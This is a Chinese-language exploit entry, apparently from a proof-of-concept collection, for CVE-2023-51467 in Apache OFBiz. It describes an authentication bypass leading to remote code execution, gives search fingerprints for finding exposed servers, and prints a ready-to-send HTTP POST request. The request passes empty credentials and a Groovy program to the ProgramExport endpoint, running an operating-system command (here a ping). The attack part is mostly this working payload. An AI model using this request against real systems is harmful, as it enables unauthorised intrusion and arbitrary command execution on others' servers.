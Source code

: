 ﻿# Apache OFBiz ProgramExport RCE

> 更新时间：2023-12-31

> 漏洞编号：CVE-2023-51467

> 漏洞说明：Apache OFBiz是一个电子商务平台Q，用于构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类应用系统。该系统的身份验证机制存在缺陷，可能允许未授权用户通过绕过标准登录流程来获取后台访问权限。此外，在处理特定数据输入时，攻击者可构造恶意请求绕过身份认证，利用后台相关接口功能执行groovy代码，导致远程代码执行。

> 漏洞特征：cert="Organizational Unit: Apache OFBiz" || (body="www.ofbiz.org" && body="/images/ofbiz_powered.gif") || header="Set-Cookie: OFBiz.Visitor" || banner="Set-Cookie: OFBiz.Visitor"

> 验证脚本：HTTP

```
POST /webtools/control/ProgramExport?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Accept:*/*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip,deflate,br
Accept-Language:en-US,en;g=0.9
Connection: close
 
groovyProgram=import+groovy.lang.GroovyShell%0D%0A%0D%0AGroovyShell+shell+%3D+new+GroovyShell%28%29%3B%0D%0Ashell.evaluate%28%27%22ping www.baidu.com%22.execute%28%29%27%29
```

> 响应代码特征：200

> 响应内容特征：

> 上传文件定位：


> 验证文件来源：Apache OFBiz ProgramExport RCE
